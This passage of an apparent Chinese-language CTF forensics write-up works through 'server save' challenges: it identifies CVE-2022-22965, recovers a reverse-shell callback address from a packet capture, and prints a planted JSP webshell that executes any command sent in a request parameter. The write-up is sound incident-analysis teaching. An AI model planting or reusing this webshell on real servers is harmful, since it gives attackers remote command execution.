 那么答案就显而易见的在github仓库里有介绍，那么答案就是：**CVE-2022-22965**

### server save\_2

> 题目内容：黑客反弹shell的ip和端口是什么，格式为：10.0.0.1:4444

继续通过流量包，我们看到最后一条记录看到执行了`bash bbbb.sh`：  
[![](assets/1702520939-1ac104868a3b986cc93aba9c900397b9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213160003-9ef7e2ba-998d-1.png)  
在helloworld目录下发现bbbb.sh，内容如下，是个反弹shell的命令：  
[![](assets/1702520939-630ebdcce61b29a41181dbc31758d3ad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213160024-aba823ee-998d-1.png)  
那么答案就是**192.168.43.128:2333**。

### server save\_3

> 题目内容：黑客的病毒名称是什么？ 格式为：filename

我们先从几个目录开始寻找，有如下几个目录需要注意：

-   /usr/local/tomcat # 运行服务的目录
-   /root # root用户目录
-   /home # 普通用户目录

运行的服务目录知识看到了shell.jsp的内容，没有找到更有用的信息。

```plain
<%
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
int a = -1;
byte[] b = new byte[2048];
while ((a = in.read(b)) != -1) {
    out.println(new String(b));
}
%>
```

root用户下也没有什么有用的信息，但是可以看到/home下存在一个guest用户，进入看到有个main文件。

[![](assets/1702520939-2d6abc4d824a98410017b115b57b5061.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213160056-beb4ff34-998d-1.png)  